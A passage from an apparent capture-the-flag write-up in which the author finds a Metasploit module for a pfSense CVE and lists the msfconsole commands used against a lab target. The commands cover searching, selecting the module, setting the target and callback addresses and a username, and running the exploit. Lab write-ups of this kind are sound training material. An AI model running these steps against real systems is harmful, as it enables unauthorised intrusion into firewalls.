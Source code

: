 ![metasploit-exploit](images-sense/11.png)

After reviewing the CVE a little more on google search engine, I found a metasploit exploit associated with the CVE and this hyped my confidence. So, I immediately opened metasploit and started figuring out what options will perfectly work for me. The commands I used were as follow:

```
msfconsole
search pfsense (5th one was our exploit)
use 5
show options
set RHOSTS 10.10.10.60
set LHOST 10.10.14.11
set USERNAME rohit
exploit
```
